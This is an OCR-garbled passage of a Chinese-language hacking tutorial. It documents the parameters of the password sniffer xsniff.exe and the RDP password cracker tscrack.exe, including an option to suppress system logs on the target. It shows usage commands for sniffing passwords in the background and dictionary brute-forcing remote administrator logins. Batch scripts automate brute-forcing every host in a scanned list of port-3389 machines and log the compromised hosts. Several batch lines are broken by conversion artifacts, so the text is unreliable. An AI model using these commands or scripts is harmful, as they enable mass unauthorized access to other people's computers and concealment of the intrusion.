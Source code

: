 -asc 以 ASCII 形式输出

-hex 以 16 进制形式输出

用法示例

xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在 pass.log 文件中

xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探 192.168.1.1 并过滤 tcp 和 udp 信息并以 ASCII 格式输出

终端服务密码破解: tscrack.exe

参数说明

-h 显示使用帮助

-v 显示版本信息

-s 在屏幕上打出解密能力

-b 密码错误时发出的声音

-t 同是发出多个连接（多线程）

-N Prevent System Log entries on targeted server

-U 卸载移除 tscrack 组件

-f 使用－f 后面的密码

-F 间隔时间（频率）

-l 使用－l 后面的用户名

-w 使用－w 后面的密码字典

-p 使用－p 后面的密码

-D 登录主页面

用法示例

tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的 administrator 的登陆密码

tscrack 192.168.0.1 -l administrator -p 123456 用密码 123456 远程登陆 192.168.0.1 的 administrator 用户

@if not exist ipcscan.txt goto noscan

[@for ](/for) /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

nscan

[@echo ](/echo) 3389.txt no find or scan faild

(① 存为 3389.bat) （假设现有用 SuperScan 或其它扫锚器扫到一批开有 3389 的主机 IP 列表文件 3389.txt)

3389.bat 意思是：从 3389.txt 文件中取一个 IP，接着运行 hack.bat

@if not exist tscrack.exe goto noscan

[@tscrack ](/tscrack) %1 -l administrator -w pass.dic >>rouji.txt

:noscan

[@echo ](/echo) tscrack.exe no find or scan faild
